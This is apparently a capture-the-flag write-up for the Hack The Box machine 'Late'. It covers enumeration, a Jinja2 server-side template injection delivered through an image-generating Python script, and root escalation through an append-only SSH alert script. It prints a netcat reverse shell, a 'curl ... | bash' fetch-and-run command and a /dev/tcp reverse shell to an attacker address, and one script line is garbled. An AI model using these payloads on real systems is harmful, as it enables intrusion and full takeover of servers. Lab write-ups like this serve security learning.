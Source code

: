 ```yaml
---
title: Late Machine HTB
date: 2023-02-1 00:18:00 +0700
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---
```


## Enumeration

```ruby
Nmap scan report for 10.129.170.15
Host is up (0.048s latency).

PORT STATE SERVICE VERSION
20/tcp closed ftp-data
80/tcp open http nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## User exploit

If we look at the page, we have a contact form. Let's check it with burp. Not much can be done.

But if we take a closer look at the page, we see a photo editor, so let's add it to /etc/hosts.

As we can see as soon as we enter the page, it uses Flask (which uses `Jinga2` template by default), so we are going to try to put a SSTI by image:

So we are going to create a python script with a payload to later upload it to the platform:

```python
from PIL import Image, ImageDraw, ImageFont

	def main():
	
	img = Image.new('RGB', (2000,100)) #Create an image
	draw = ImageDraw.Draw(img)
	myFont = ImageFont.truetype('LiberationMono-Regular.ttf', 15)
	payload = "{{ 191 * 7 }}" # This will be our payload
	draw.text((0,3), payload, fill=(255,255,255), font=myFont) 
	img.save('payload.png')
	
if __name__ == '__main__':
	main()
```

and if we upload this script to the page, it reports 1337, so it is vulnerable to SSTI. 

We are going to modify the script a little bit so that it will change the payload by the code that we introduce between " " :

```python
from PIL import Image, ImageDraw, ImageFont
import sys
def main():
    if len(sys.argv) < 2:
        print('Usage: {} <cmd>'.format(sys.argv[0]))
        exit()
    img = Image.new('RGB', (2000,100))
    draw = ImageDraw.Draw(img)
    myFont = ImageFont.truetype('LiberationMono-Regular.ttf', 15)
    payload = """{{{{self._TemplateReference__context.namespace.__init__.__globals__.os.popen("{cmd}").read()}}}}"""".format(cmd=sys.argv[1]) draw.text((0,3), payload, fill=(255,255,255), font=myFont) # payload
    img.save('payload.png')

if __name__ == '__main__':
    main()
```

So let's upload a RevShell. First we create the shell.sh file and put the shell command in it:

```bash
#!/bin/bash
rm /tmp/wk;mkfifo /tmp/wk;cat /tmp/wk|/bin/sh -i 2>&1|nc 10.10.14.58 1234 >/tmp/wk
```

We create the file with the script
```python
python3 image.py "curl http://10.10.14.58:8000/shell.sh| bash"
```

and if we enter the page and run it, we get the R.E.

## Root Exploit

As we have access to the private key of svc_acc, we copy it to our local machine, give ``chmod 600 id_rsa` and connect via ssh: `ssh svc_acc@10.129.170.15 -i id_rsa`. 
We look for files owned by sv_acc:

```shell
find / -type f -user svc_acc 2>/dev/null
```

and we see one ssh-alert.sh, so let's investigate it:

```bash
#!/bin/bash
RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User: $PAM_USER
        User IP Host: $PAM_RHOST
        Service: $PAM_SERVICE
        TTY: $PAM_TTY
        Date: `date`
        Server: `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

In the if of the script we can see how the user root@late.htb receives a notification if any user accesses the machine via ssh.

With the help of pspy, we can see how the script is executed every time we access the machine via ssh.

If we try to overwrite the script, we have no access, because if we look at the `lsattr` we can see that it has `---a---e---` so we can only append text to it, so let's add a R.S:

```shell
echo "bash -i >& /dev/tcp/10.10.14.58/1337 0>&1" >> /usr/local/sbin/ssh-alert.sh
```

And if we listen on port 1337 and exit the SSH connection, we receive a shell as root user on the local machine. 
